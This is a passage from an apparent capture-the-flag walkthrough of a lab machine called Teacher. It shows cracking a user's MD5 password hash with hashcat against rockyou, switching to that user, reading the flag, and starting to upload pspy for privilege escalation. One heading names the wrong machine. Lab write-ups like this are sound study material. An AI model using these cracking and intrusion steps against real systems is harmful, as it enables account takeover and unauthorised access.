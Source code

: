        +------+--------+-----------+--------------+---------+-----------+------------+-------------+--------------------------------------------------------------+----------+------------+----------+----------------+-----------+-----+-------+-------+-----+-----+--------+--------+-------------+------------+---------+------+---------+------+--------------+-------+----------+-------------+------------+------------+--------------+---------------+--------+---------+-----+---------------------------------------------------------------------------+-------------------+------------+------------+-------------+---------------+-------------+-------------+--------------+--------------+----------+------------------+-------------------+------------+---------------+

     $ MariaDB [moodle]> \q
     ```
     __NOTE(S)__:
     - The user __Giovannibak__ has a different password hash than the rest
     - __Giovannibak__'s password is in __MD5__
>
   - Decrypt __Giovannibak__'s password:
     ```console
     $ hashcat --force -m0 7a860966115182402ed06375cf0a22af /usr/share/wordlists/rockyou.txt

       7a860966115182402ed06375cf0a22af:expelled

     ```
   - Go back to __`www-data`__ shell: 
     ```console
     $ su giovanni
     $ Password: expelled

     $ id

       uid=1000(giovanni) gid=1000(giovanni) groups=1000(giovanni)
     
     $ cat ~/user.txt

       fa9ae187462530e841d9e61936648fa7

     ```

---

## STEP 4 : PRIVILEGE ESCALATION (giovanni -> root)

1. Download, upload, then run [pspy](https://github.com/DominicBreuker/pspy):
   1. Check system architecture of FriendZone
      ```console
      $ uname -mnop

        teacher x86_64 unknown GNU/Linux

      ```
      __NOTE(S)__:
      - The system runs on 64-bit.
>
   2. Upload [pspy64](https://github.com/DominicBreuker/pspy/releases/download/v1.0.0/pspy64) to Teacher
      - Local terminal:
        ```console
        $ python -m SimpleHTTPServer
